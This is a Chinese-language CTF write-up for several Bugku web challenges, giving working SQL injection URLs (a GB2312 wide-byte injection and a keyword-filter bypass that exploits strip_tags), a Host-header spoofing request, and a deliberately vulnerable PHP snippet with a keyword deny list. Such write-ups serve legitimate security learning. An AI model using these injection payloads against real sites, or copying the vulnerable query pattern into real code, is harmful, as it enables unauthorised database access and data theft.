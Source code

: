<br>

### sql注入
```
http://103.238.227.13:10083/?id=0%df' union select 1,database() %23
http://103.238.227.13:10083/?id=0%df' union select 1,string from sql5.key %23
```
这道题有一个需要非常细心观察的地方，就是网页的编码格式为GB2312
如果有测试的话，会发现单引号会过滤或者转移，后来测试后发现是被转移，那么可以利用**宽字节注入**
在之后有一个无比坑爹的地方，就是直接查询key表会报错，然后想了半天，看看了下别人的writeup
原来是key在原本的查询过程中是字段名，在后者的查询是表明，那么就起了冲突，解决方法
 - 用反引号包住key
 - 直接指定库名

<br>

### 域名解析
如果直接去访问`flag.bugku.com`是不存在DNS解析的，所以直接访问IP地址，但是会显示400错误页面，则该地址不能直接用IP去访问。
其中有一个办法就是更改主机的HOST文件，即可。
然后我用的是另一个办法，访问IP地址后用BP抓包，在将Host修改为域名。(这边自己猜测他是根据HOST去判断的)
```http
GET / HTTP/1.1
Host: flag.bugku.com
Connection: close
```
<br>

### SQL注入1
```php
//过滤sql
$array = array('table','union','and','or','load_file','create','delete','select','update','sleep','alter','drop','truncate','from','max','min','order','limit');
foreach ($array as $value)
{
	if (substr_count($id, $value) > 0)
	{
		exit('包含敏感关键字！'.$value);
	}
}

//xss过滤
$id = strip_tags($id);

$query = "SELECT * FROM temp WHERE id={$id} LIMIT 1";
```
审计后会发现，页面先去判断是否有关键字存在，在去利用`strip_tags()`过滤xss
那么可以借助这点来构建
`http://103.238.227.13:10087/?id=1 unio<>n selec<>t 1,hash fro<>m `key`  %23`
<br>

### 你必须让他停下
进入页面会不断刷新页面，直接右键源代码，提示flag的位置，但是并没有
后面猜测flag是随机会刷出，利用bp抓包一段时间，直接筛选报文长度，得到不同的几个
观察后得到flag
<br>
